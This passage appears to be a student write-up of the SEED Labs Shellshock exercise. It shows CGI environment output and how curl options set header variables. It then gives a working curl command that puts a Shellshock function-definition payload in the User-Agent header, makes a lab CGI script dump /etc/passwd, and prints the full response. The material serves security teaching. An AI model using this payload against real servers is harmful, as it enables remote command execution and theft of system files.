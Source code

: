 ```
CONTEXT_DOCUMENT_ROOT=/usr/lib/cgi-bin/
SERVER_ADMIN=webmaster@localhost
SCRIPT_FILENAME=/usr/lib/cgi-bin/getenv.cgi
REMOTE_PORT=48058
GATEWAY_INTERFACE=CGI/1.1
SERVER_PROTOCOL=HTTP/1.1
REQUEST_METHOD=GET
QUERY_STRING=
REQUEST_URI=/cgi-bin/getenv.cgi
SCRIPT_NAME=/cgi-bin/getenv.cgi
* Connection #0 to host www.seedlab-shellshock.com left intact
```

When the `-A` option is used, `HTTP_USER_AGENT` variable is updated.

When the `-e` option is used, `HTTP_REFERER` variable is updated.

When the `-H key:value` option is used, a new variable `HTTP_key` is created with value `value`.

###  Task 3: Launching the Shellshock Attack

##### Task 3.A: Get the server to send back the content of the `/etc/passwd` file.

```sh
seed@VM:~$ curl -A "() { echo hello;}; echo \"Content-Type: text/plain;\"; echo; echo; /bin/cat /etc/passwd" -v www.seedlab-shellshock.com/cgi-bin/vul.cgi
*   Trying 10.9.0.80:80...
* TCP_NODELAY set
* Connected to www.seedlab-shellshock.com (10.9.0.80) port 80 (#0)
> GET /cgi-bin/vul.cgi HTTP/1.1
> Host: www.seedlab-shellshock.com
> User-Agent: () { hello;}; echo "Content-Type: text/plain;"; echo; echo; /bin/cat /etc/passwd
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Thu, 14 Sep 2023 06:03:30 GMT
< Server: Apache/2.4.41 (Ubuntu)
< Vary: Accept-Encoding
< Transfer-Encoding: chunked
< Content-Type: text/plain;
< 

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
* Connection #0 to host www.seedlab-shellshock.com left intact
```